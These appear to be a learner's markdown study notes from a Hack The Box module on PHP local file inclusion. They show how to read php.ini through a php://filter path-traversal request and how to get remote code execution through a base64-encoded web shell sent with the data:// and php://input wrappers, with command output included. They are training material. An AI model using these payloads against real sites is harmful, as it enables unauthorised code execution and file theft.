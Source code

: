 -  [data](https://www.php.net/manual/en/wrappers.data.php) wrapper can be used to include external data
- only available to use if the (`allow_url_include`) setting is enabled
- check by reading the PHP configuration file through the LFI vulnerability.

##### Checking PHP Configurations

- configuration files
	- `/etc/php/X.Y/apache2/php.ini` -> in Apache
	- `/etc/php/X.Y/fpm/php.ini` -> in Ngnix


```shell
curl "http://<SERVER_IP>:<PORT>/index.php?language=php://filter/read=convert.base64-encode/resource=../../../../etc/php/7.2/apache2/php.ini"
```

```shell
pradyun2005@htb[/htb]$ echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep allow_url_include

allow_url_include = On
```

- if this on we can on we can use data wrapper to include files


##### Getting RCE

```shell
pradyun2005@htb[/htb]$ echo '<?php system($_GET["cmd"]); ?>' | base64

PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8+Cg==
```
- url encode the base64 payload

```url
http://<SERVER_IP>:<PORT>/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id
```


## Input Wrapper
- used to include external input and execute PHP code
- input wrapper uses POST request to include payload and execute

```shell
pradyun2005@htb[/htb]$ curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' "http://<SERVER_IP>:<PORT>/index.php?language=php://input&cmd=id" | grep uid
            uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Expect Wrapper

- allows us to directly run commands through URL streams
- needs to be manually installed and enabled in configuration
- to check get `php.ini` file like above
